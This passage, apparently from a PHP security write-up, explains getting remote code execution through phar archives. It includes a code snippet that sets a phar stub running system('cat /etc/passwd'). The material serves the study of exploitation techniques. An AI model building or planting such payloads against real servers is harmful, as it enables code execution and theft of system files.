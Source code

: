 Now use `php -d phar.readonly=0 chain.php` to create phar file and you will get RCE

![image](./images/image22.png)

## Phar Stub Bypass with gzip

This exploit still works in PHP 8 and does not involve deserialization.

Remember stub? It’s the PHP code at the beginning of a Phar archive that ends with __HALT_COMPILER();. So what if we inject PHP code before it ?

```php
<?php

$obj = 1;
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php system("cat /etc/passwd"); __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```

So it still works to run PHP code
